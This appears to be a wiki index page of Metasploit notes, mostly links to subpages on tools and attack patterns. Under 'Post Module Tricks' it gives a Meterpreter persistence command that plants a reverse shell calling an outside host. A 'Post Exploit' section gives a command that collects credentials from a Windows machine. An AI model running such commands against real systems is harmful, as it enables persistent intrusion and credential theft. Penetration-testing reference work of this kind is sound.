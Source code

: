 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)

[Meterpreter](/meterpreter)

[MSFConsole](/msfconsole)

[MSFDB](/msfdb)

[MSFRPC](/msfrpc)

[Programming](/metasploitprogramming)
# Known Attack Patterns
[Pass the Hash](/passthehash)
[Browser Attacks](/browserattacks)
[Office Macro Attacks](/officemacros)
[PDF Payload](/pdfpayload)
[MSSql to Meterpreter](/mssqlmeterpreter)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector

# MSF RPC Connections